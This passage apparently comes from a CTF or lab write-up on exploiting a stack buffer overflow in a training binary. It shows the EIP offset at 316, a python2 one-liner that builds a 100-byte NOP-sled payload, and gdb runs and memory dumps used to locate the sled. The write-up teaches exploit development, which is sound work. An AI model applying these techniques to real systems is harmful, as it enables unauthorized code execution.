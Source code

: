 We can see that we successfully have overwritten the EIP all the way up to offset `316` with our `\x43` values.

## Continued Padding

Now that we have the offset for the EIP, we can start to start to apply further onto our padding. We have the offset for the EIP, but we'll also need a way for the program to redirect a payload that we control - which we will apply later.

We can utilize a NOP Sled for this. NOPs (No Operation) are instructions that do exactly what they're defined as - they do nothing. The reason why the term "NOP Sled" was coined is because NOP instructions will point to the next address in the stack, meaning we can use this to essentially have the program follow a "slope" down to our payload.

![overflow_image_1](/images/ctf/overflow_image_1.png)

Generally, I like to use 1/10 of the total buffer size we are allocating for our NOP sled. However since the buffer size is only `300`, we'll use a NOP sled of 100.

```
└─$ python2 -c 'print "\x42" * (316-100-4) + "\x90" * 100 + "\x43" * 4' > offset.txt

(gdb) set args < offset.txt
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /-/ccso_intro_2025/overflow/overflow < offset.txt
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter a string:

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
```

Let's now examine the assembly and see where our payload is relative to the stack pointer.

```
(gdb) x/2000xb $esp-400
......
0xffffcd58:     0x42    0x42    0x42    0x42    0x42    0x42    0x42    0x42
0xffffcd60:     0x42    0x42    0x42    0x42    0x42    0x42    0x42    0x42
0xffffcd68:     0x42    0x42    0x42    0x42    0x42    0x42    0x42    0x42
0xffffcd70:     0x42    0x42    0x42    0x42    0x42    0x42    0x42    0x42
0xffffcd78:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffcd80:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffcd88:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffcd90:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffcd98:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffcda0:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffcda8:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffcdb0:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffcdb8:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffcdc0:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffcdc8:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffcdd0:     0x90    0x90    0x90    0x90    0x90    0x90    0x90    0x90
0xffffcdd8:     0x90    0x90    0x90    0x90    0x43    0x43    0x43    0x43
......
```
